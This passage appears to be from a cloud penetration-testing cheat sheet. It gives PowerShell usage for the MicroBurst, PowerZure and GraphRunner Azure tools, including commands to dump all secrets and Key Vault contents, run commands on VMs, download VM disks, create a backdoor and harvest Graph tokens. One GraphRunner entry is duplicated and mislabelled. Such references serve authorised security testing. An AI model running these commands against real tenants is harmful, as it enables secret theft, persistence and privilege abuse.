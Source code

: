 ### [**MicroBurst**](https://github.com/NetSPI/MicroBurst)

```
Import-Module .\MicroBurst.psm1
Import-Module .\Get-AzureDomainInfo.ps1
Get-AzureDomainInfo -folder MicroBurst -Verbose
```

### [**PowerZure**](https://github.com/hausec/PowerZure)

```powershell
Connect-AzAccount
ipmo C:\Path\To\Powerzure.psd1
Get-AzureTarget

# Reader
$ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

# Contributor
$ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
$ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
$ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
$ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

# Owner
$ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest

# Administrator
$ Create-Backdoor, Execute-Backdoor
```

### [**GraphRunner**](https://github.com/dafthack/GraphRunner/wiki/Invoke%E2%80%90GraphRunner)

```powershell

#Get-GraphTokens
#A good place to start is to authenticate with the Get-GraphTokens module. This module will launch a device-code login, allowing you to authenticate the session from a browser session. Access and refresh tokens will be written to the global $tokens variable. To use them with other GraphRunner modules use the Tokens flag (Example. Invoke-DumpApps -Tokens $tokens)
Import-Module .\GraphRunner.ps1
Get-GraphTokens

#Invoke-GraphRecon
#This module gathers information about the tenant including the primary contact info, directory sync settings, and user settings such as if users have the ability to create apps, create groups, or consent to apps.
Invoke-GraphRecon -Tokens $tokens -PermissionEnum

#Invoke-DumpCAPS
#A module to dump conditional access policies from a tenant.
Invoke-GraphRecon -Tokens $tokens -PermissionEnum

#Invoke-DumpCAPS
#A module to dump conditional access policies from a tenant.
Invoke-DumpCAPS -Tokens $tokens -ResolveGuids

#Invoke-DumpApps
#This module helps identify malicious app registrations. It will dump a list of Azure app registrations from the tenant including permission scopes and users that have consented to the apps. Additionally, it will list external apps that are not owned by the current tenant or by Microsoft's main app tenant. This is a good way to find third-party external apps that users may have consented to.
Invoke-DumpApps -Tokens $tokens

```